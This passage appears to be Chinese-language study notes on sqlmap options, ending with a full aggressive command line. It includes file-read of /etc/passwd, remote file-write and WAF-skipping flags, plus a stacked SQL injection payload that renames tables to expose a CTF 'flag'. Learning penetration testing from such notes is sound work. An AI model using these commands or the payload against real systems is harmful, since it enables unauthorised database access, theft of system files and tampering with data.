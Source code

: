 -
7. --threads=10

- 最大线程数
8. -p "id"
- 指定注入点
9. --flush-session
- 刷新session，用于对注入点的重新注入
10. --wizard
- 面向初学者的友好参数
11. --hex
- 使用十六进制解析数据
12. --encoding=GBK
- 设置编码
13. --file-read="/etc/passwd"
- 读取文件内容
14. --file-write="/path/local/file" --file-dest="/path/remote/file"
- 写入文件

暴力破解

当遇到access数据库或者mysql数据库版本较低（没有information_schema数据库）时，只能使用字典猜解数据库的表名和字段名等信息。

- 表名猜解
15. --common-tables
- 字段名猜解
16. --common-columns
- 设置请求延时（默认5秒），当网络较差时使用
17. --time-sec=6
- 设置注入关键词，即当返回预期的页面时包含的某个字符串
18. --string="success"
- 也可以使用正则表达式
19. --regexp="uid\d+"
20. --prefix=PREFIX
- 指定payload的前缀
21. --suffix=SUFFIX
- 指定payload的后缀
22. --referer=REFERER
- 指定referer
23. --tamper=
- 使用自定义脚本

-o -risk=3 -level=5 --random-agent -skip-waf --batch --dbms=mysql --threads=10 --dbs

1';rename tables `words` to `words1`;rename tables `1919810931114514` to `words`; alter table `words` change `flag` `id` varchar(100);#

- -o

打开所有优化开关

- -threads=10

多线程，默认1，最高10

- -risk=3
